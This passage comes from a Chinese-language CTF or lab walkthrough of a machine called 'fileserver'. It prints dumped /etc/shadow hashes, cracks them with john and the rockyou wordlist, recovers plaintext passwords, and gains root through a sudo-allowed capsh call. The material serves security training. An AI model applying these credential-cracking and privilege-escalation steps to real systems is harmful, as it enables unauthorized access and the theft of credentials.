   postfix:!!:18310::::::
  sshd:!!:18310::::::
  systemd-network:!!:18310::::::
  gluster:!!:18310::::::
  smbuser:$6$ePvCCtcG$mAQFQldd7/k25o51NK2gkccL24r7DzhrqZGTyjoLlhOCKb060BuB/X6Qlc7noUv61K9NXtaPeWnYRlLWigBfF1:18317:0:99999:7:::
  rpc:!!:18311:0:99999:7:::
  tcpdump:!!:18311::::::
  rpcuser:!!:18311::::::
  nfsnobody:!!:18311::::::
  apache:!!:18311::::::
  bla:$6$ENV.HdIK$huk85ZxIDwa7jK8W1i0cfV/s67QDyYFaEHVrrpKjYesEJXAiaTo4jtNvfmKD4y1ULhub6gahOVIBaXxcpgm0n.:18317:0:99999:7:::
  
  ```

- 将`shadow`文件中的密码保存出来,使用`john`进行破解

- ```shell
  └─$ john shadow_crash --wordlist=/usr/share/wordlists/rockyou.txt
  Using default input encoding: UTF-8
  Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  Cost 1 (iteration count) is 5000 for all loaded hashes
  Will run 4 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  password         (smbuser)     
  itiseasy         (bla)     
  2g 0:00:15:05 26.33% (ETA: 10:22:54) 0.002207g/s 4361p/s 6242c/s 6242C/s schuey#12007..schooners3
  Use the "--show" option to display all of the cracked passwords reliably
  Session aborted
  
  ```

- 成功获得`bla`用户的密码信息-->切换到`bla`用户

- ```shell
  [smbuser@fileserver tmp]$ su bla
  Password: 
  [bla@fileserver tmp]$ sudo -l
  Matching Defaults entries for bla on this host:
      requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
      LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
      LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
      LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
      secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
  
  User bla may run the following commands on this host:
      (ALL) NOPASSWD: /usr/sbin/capsh, (ALL) /usr/sbin/setcap
  [bla@fileserver tmp]$ 
  ```

### 成功获得root用户flag

- [点我直达提权链接](https://gtfobins.github.io/gtfobins/capsh/)

- ```shell
  [bla@fileserver tmp]$ sudo capsh --
  [root@fileserver tmp]# whoami
  root
  [root@fileserver tmp]# uname -a
  Linux fileserver 3.10.0-229.el7.x86_64 #1 SMP Fri Mar 6 11:36:42 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
  [root@fileserver tmp]# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
  ```